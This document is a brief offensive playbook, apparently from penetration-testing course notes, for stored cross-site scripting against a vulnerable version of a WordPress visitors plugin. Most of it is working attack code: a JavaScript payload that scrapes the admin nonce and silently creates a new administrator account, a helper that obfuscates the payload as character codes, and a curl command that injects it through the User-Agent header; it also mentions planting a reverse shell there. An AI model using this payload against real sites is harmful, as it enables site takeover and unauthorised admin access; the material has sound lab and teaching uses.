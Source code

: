Stored XSS Against WP Playbook:

1. Identify user controlled input that is sent to a DB and later rendered. eg. In the `0.3` version of the Visitors WP plugin `X-Forwarded-For` & `User-Agent` headers sent by the client are stored without sanitisation, and later rendered in the browser in a particular admin console. Therefore when any admin visits that page from then on the code we embed in some script tags is executed.
2. Get Burp up and running, make sure intercept is off and the proxy is correctly configured. Look in the proxy section for requests made in the browser. Send one to the repeater (Ctrl+R), in the repeater edit the contents of the `User-Agent` header to include a reverse shell, alternatively you could do something really whacky:
	
Take this whacko payload:
```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
Pop it into jscompress.com to compress it, then feed it to the following function in the console to minify it:
```js
function encode_to_javascript(string) {
    var input = string
    var output = '';
    for(pos = 0; pos < input.length; pos++) {
        output += input.charCodeAt(pos);
        if(pos != (input.length - 1)) {
            output += ",";
        }
    }
    return output;
}
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
Finally pass the following to your vulnerable parameter:
```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(<insert encoded payload here>))</script>" --proxy 127.0.0.1:8080
```
Make sure intercept is on in Burp, have a look at the payload, then send it on.
Visiting the Visitor Plugin dashboard will trigger the stored XSS payload.
